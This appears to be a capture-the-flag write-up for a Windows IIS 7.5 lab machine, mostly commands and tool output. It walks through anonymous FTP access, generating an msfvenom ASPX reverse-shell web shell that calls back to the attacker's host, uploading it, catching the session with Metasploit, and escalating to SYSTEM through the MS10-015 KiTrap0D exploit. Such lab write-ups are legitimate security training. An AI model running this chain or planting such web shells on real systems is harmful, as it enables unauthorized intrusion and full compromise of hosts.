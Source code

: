 nmap result:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```

Use ftp to connect

```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

We can find the path `/aspnet_client/system_web/2_0_50727/`.

We can also put webshell to web directory through ftp. 

Use msfvenom to generate webshell:

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f aspx -o /Users/par1st0nh1ll/Desktop/htb/writeups/windows/exp/shell.aspx
```

Upload the generated reverse webshell at the current folder.

```
lcd /Users/par1st0nh1ll/Desktop/htb/writeups/windows/exp
put ./shell.aspx
```

Use meterpreter to listen for reverse shell connection.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 4444
set ExitOnSession false
exploit -j
```

Visit `http://10.10.10.5/shell.aspx` and you will see a new session is established.

Connect to the session, but it requires privelege escalation to read flags.

```
sessions -i 1
```

Collect systeminfo message and write to systeminfo.txt

```
c:\Users>systeminfo
```

Use [wesng](https://github.com/bitsadmin/wesng) to search for vulnerabilities. 

```
// Download latest definitions
wes.py -u 
// Determine vulnerabilities
python3 wes.py -e ./systeminfo.txt 
```

Find a privilege escalation vulnerability:

```
Date: 20100209
CVE: CVE-2010-0232
KB: KB977165
Title: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
Affected product: Windows 7 for 32-bit Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploits: http://www.securityfocus.com/bid/37864, http://lock.cmpxchg8b.com/c0af0967d904cef2ad4db766a00bc6af/KiTrap0D.zip
```

[MS10-015](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-015) has a metasploit module `exploit/windows/local/ms10_015_kitrap0d`

Run this module and you can gain `nt authority\system` privelege.